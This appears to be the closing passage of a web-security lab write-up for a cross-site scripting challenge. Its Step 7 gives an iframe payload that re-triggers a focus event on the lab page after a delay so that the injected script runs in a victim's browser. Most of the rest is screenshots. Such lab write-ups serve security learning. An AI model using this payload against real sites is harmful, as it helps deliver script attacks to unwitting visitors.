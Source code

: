 **Execution Proof:**

<img width="934" height="572" alt="image" src="https://github.com/user-attachments/assets/461a7ec1-fe31-4f19-aa63-c362d64a19cd" />

---

## Step 7: Using an iframe to Auto-Focus (for Victim Delivery)

We send the victim a crafted `iframe` that triggers the focus event after a delay:

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/post?postId=7" 
        onload="setTimeout(()=>this.src=this.src+'#x',500)">
</iframe>
```

**Screenshot:**

<img width="922" height="110" alt="image" src="https://github.com/user-attachments/assets/e6938abb-cd8b-4c0b-9faf-e5c79ce374a6" />

---

## Final Result

Once the victim loads the malicious iframe, the payload is triggered and the challenge is solved.

**Final Screenshot:**

<img width="931" height="155" alt="image" src="https://github.com/user-attachments/assets/ed31d12e-3ac9-4d96-ac4b-2e3d25c6e28d" />





---




